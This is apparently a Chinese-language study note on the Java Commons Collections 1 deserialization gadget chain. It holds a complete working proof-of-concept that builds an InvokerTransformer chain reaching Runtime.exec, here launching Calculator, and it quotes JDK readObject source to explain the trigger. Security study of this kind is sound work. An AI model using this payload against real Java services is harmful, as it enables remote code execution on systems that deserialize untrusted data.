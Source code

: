 ```
new Map
-> TransformedMap.decorate
-> ChainedTransformer
-> InvokeTransformer
-> Runtime.exec
```

接下来是完整的CC1 gadget。

```java
class CommonsCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "/System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
        };
        
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "xxxx");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream  oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

由于在反序列化初始化对象的过程中，我们无法调用`outerMap.put`的方法去手动添加元素，触发回调函数，而是需要找到一个类在反序列化的`readObject`中做到类似的写入操作。

`sun.reflect.annotation.AnnotationInvocationHandler`就可以做到在`readObject`中写入。

我本地的IDEA反编译jdk看得到的这部分代码没有变量名，这里就直接贴p牛文章里的JDK源码

```java
        private void readObject(java.io.ObjectInputStream s) throws java.io.IOException, ClassNotFoundException {
            s.defaultReadObject();
// Check to make sure that types have not evolved incompatibly
            AnnotationType annotationType = null;
            try {
                annotationType = AnnotationType.getInstance(type);
            } catch(IllegalArgumentException e) {
// Class is no longer an annotation type; time to punch out
                throw new java.io.InvalidObjectException("Non-annotation type in
                        annotation serial stream");
            }
```